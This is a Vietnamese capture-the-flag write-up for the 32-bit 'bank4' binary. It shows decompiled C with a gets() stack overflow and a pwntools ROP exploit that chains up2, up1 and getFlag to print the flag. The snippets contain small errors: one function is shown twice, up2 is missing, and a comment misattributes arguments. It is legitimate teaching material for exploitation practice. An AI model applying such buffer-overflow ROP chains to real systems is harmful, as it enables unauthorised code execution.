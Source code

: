 # *bank 4*

## Task:
nc 61.28.237.24 30205

File: bank4

## Solution
Bài này cũng tương tư bài `bank3` khai thác trong hàm `Register` và overwrite return address

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n");
}
```

```c
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
```

```c
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
```

```c
void getFlag()
{
  if ( o1 && o2 )
    system("cat flag.txt");
  else
    system("echo \"hcmasd-cft{nah_nah_nah_not_today}\"");
}
```

Trên đây là 4 hàm chính mà ta cần phân tích. Ta thấy trong hàm `getFlag` để in ra được `flag` phải pass được điều kiện `if` `o1` và `o2` bằng `1`

Như ở trên thì hàm `o1` được set bằng `1` trong hàm `up1` tương tự với `o2` trong hàm `up2`

vậy trước khi gọi hàm `getFlag` ta phải gọi hàm `up1` và `up2` để set `o1` và `o2`

tuy nhiên trong mỗi hàm `up` thì đều có kiểm tra điều kiện `if` với tham số truyền hàm. Ta để ý thì hàm `up1` sẽ kiểm tra điều kiện trong đó có `o2` phải bằng `1` cho nên ta sẽ gọi hàm `up2` xong rồi mới đến `up1`

Vì đây là file thực thi `32bit` cho nên đối tham số sẽ được truyền vào hàm thông qua stack

## Exploit
code python:

```python
from pwn import *

binary = context.binary = ELF('./bank4')
rop = ROP(binary)

pop_ebp_ret = rop.find_gadget(['pop ebp', 'ret'])[0]

p = process('./bank4')
#p = remote('61.28.237.24', '30205')

payload = b'A' * (0x4c + 4) # khoảng cách giữa biến name và return address
payload += p32(binary.sym.up2) # địa chỉ ham up2
payload += p32(pop_ebp_ret) # địa chỉ khối lệnh (pop ebp ; ret) -> này sẽ là return address sau khi gọi xong hàm up2
payload += p32(pop_ebp_ret) # địa chỉ khối lệnh (pop ebp ; ret) -> tham số đầu tiên của hàm up2
payload += p32(pop_ebp_ret)  # địa chỉ khối lệnh (pop ebp ; ret) -> tham số thứ 2 của hàm up2
payload += p32(0x12345678)  # -> tham số thứ 3 của hàm up2
payload += p32(binary.sym.up1) # -> địa chỉ của hàm up1
payload += p32(binary.sym.getFlag) # -> địa chỉ của hàm getFlag
payload += p32(0x1337) # -> tham số thứ nhất của hàm getFlag
payload += p32(0xDEAD) # -> tham số thứ hai của hàm getFlag



f = open('solve.txt', 'wb')

f.write(payload)

p.sendline(payload)

p.interactive()


```

bài này ta sử dụng hàm `rop` của pwn tool để lấy giá trị địa chỉ tại những instruction

đầu tiên ta tìm địa chỉ của khối lệnh `pop ebp; ret` 

Lí do ta không truyền hàm hai tham số đầu tiên của hàm `up2` là hai số mà là địa chỉ của khối lệnh `pop_ebp_ret`
bởi vì sau khi thực hiện xong hàm `up2` thì chương trình sẽ lần lượt gọi tiếp những địa chỉ tiếp theo trên stack

Ta gọi lần lượt sẽ là gọi pop_ebp_ret khi khối lệnh này thực hiện sẽ pop khỏi stack 1 giá trị chinh là tham số đầu tiên của hàm `up2`

Tiếp theo đó chương trình trả về và sẽ gọi `pop_ebp_ret` chính là tham số thứ 2 của hàm `up2` vì tham số thứ nhất đã được `pop` ra khỏi stack. Hàm này sẽ pop tham số thứ 3 của hàm `up2` 0x12345678 ra khỏi stack

sau đó gọi hàm `up1` và làm tương tự ...

# Chạy Script
vì server đã đóng nên mình tiến hành khai thác local với file flag.txt HCMUSCTF{bank4}




